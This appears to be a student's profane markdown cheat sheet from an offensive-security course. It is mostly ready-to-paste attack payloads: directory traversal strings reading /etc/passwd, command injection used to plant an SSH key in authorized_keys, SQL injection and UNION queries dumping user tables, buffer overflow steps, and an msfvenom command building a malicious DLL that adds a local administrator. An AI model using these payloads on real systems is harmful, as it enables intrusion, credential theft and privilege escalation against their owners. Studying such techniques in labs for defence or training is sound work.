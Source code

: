 # *****SHITS VIOLENTLY**** 💯
### Host Discovery
- Narrow the scope 
  - ping sweep (see whats out there maybe cuz huge subnet)
    - `for i in {1..254} ;do (ping -c x.x.x.x | grep "bytes from" &) ;done`
  - now can enumerate the hosts, nmap
    - nmap the well-known ports, notice some important services
      - say it's http, you can use those scripts, some examples below:
      - `nmap -v -sT -Pn -T4 --script http-robots.txt.nse X.X.X.X`
      - `nmap -v -sT -Pn -T4 --script http-enum.nse X.X.X.X`
        - may need `=` connecting "--script" with "http-blahblah"
      - `nikto -h X.X.X.X`
- use web exploitation tools (view source, sql, inspect element, etc) ***HE SAID SOMETHING ABOUT CHANGING OPACITY, CODE COULD BE BLACK AND/OR WHITE IN PAGE SRC OR CONSOLE THAT WOULD'T NORMALLY BE VISIBLE***

### Web Exploitation
- Directory Traversal - information
  - ../../../../../../../../etc/passwd
  - ../../../../../../../../etc/group
  - ../../../../../../../../etc/hosts
  - ../../../../../../../../etc/networks
  - ../../../../../../../../etc/resolv.conf
- Cmd Injection - Information/Access
  - `; id`
  - `; whoami`
  - `; cat`
  - `; <CMD>`
- want to upload your SSH key to user that you are home directory
  - find the default home directoru, for the user, based off of /etc/passwd
    - `www-data:x:33:33:www-data:/var/www:/bin/bash` 
  - generate your own ssh keys 
    - `@linops: ssh-keygen -t rsa -b 4096` 
      - set no password
      - saves public key in /home/student/.ssh/id_rsa.pub
        - **dont use privat key dumbass**
      - `cat /home/student/.ssh/id_rsa.pub
      - copy the text and save it to put it on the vulnerable web stuff
  - utilizing command injection,
  - `; ls -la /var/www` to see what's there
    - if /.ssh directory is not there, create it
    - `; mkdir var/www//.ssh`
  - `; touch /var/www/.ssh/authorized_keys`
  - `; ls -la /var/www/.ssh` - **ALWAYS CHECK TO MAKE SURE THE THINGS YOU DID ACTUALLY HAPPENED**
  - `; echo "(id_rsa.pub conents)" >> /var/www/.ssh/authorized_keys`
  - `ssh -i .ssh/id_rsa www-data@X.X.X.X`
    - www-data being the user that you are when you're on the webpage
- Good walkthrough for all this on **Web Exploitation Day 1** 
- POST method = input field box 
  - `test' or 1='1`
  - `test' or 1='1;`
  - `test' or 1='1; #`
  - `test' or 1='1; --`
   - Can also try `OR` instead of `or` cuz shit is finnickyfuct
  - throw it in both fields
  - see if it breaks?
- GET method = url thing
  - information may be different thatn POST method
  - can keep interacting with the page to see how the url changes
  - blahblahblah.php?Selection=**1**&submitblahblah
    - see that 1 changes to 2 or 3 and stuff 
      - .php?Selection=1 or 1=1
        - %20 represents a space in a URL field
      - .php?Selection=2 or 1=1
        - and 3 and 4 and so on
          - different syntaxes `=2 or 1= 1;` `=2 or 1=1; #` and stuff same shit as POST method
  - GOLDEN STATEMENT
    - on vulnerable page, 
      - Selection=2 UNION select table_schema,table_name,column_name from information.schema.columns 
      - columns = Table, This table exists within the information_schema database
      - table_schema = Column, List out database names 
      - Column_name = Column, List out the column names
        - see that there's a column name thing called session, with column names (middle column) from user table (right)
        - UNION select 1,2,3,4,5,6 #
        - UNION select 1,2,3 #
          - let's say 2 showed 4 showed and 6 showed
          - UNION select 1,table_schema,3,table_name,5,column_name from information_schema.columns
            - put the things we wanted in their respective fields and filled in the rest with placeholder numbers
        - UNION select id,name,pass from session.user

### Reverse Engineering / Exploit Development
- static analysis : file, strings
- Behavioral analysis: run the file (what normal looks like)
---
- find the offset 
  - gdb, buffer overflow pattern generator 
- Validate EIP with B
- crafted exploit
  - offset
  - EIP/JMP ESP placeholder
  - NOP sled
- generate shellcode
- find JMP ESP from the **Target Machine's** memory 
  - `env -gdb <program name>` 
- replace EIP/JMP ESP placeholder with valid JMP ESP memory address
- verify exploit
  - offset
  - JMP ESP (Big endian to Little endian)
  - NOP sled
  - shell code
  - Does sudo matter? yes. Need to run program as sudo to invoke root privileges
  
### Exploiting tings 
- SUID/SGID
- cron
- run-parts
- "." in path
- /etc/sudoers
- sudo -l 
- GTFObins
- /var/tmp and/or /tmp/


.

xfreerdp /u:comrade /v:0.0.0.0 /port:32302 /dynamic-resolution +glyph-cache +clipboard

```
msfvenom -p windows/exec CMD="cmd.exe /C net localgroup Administrators Lroth /add" -b '\x00' -f dll > SSPICLI.dll

scp student@10.50.30.149:/home/student/10.50.37.194/SSPICLI.dll . 

*log off and re-RDP
```















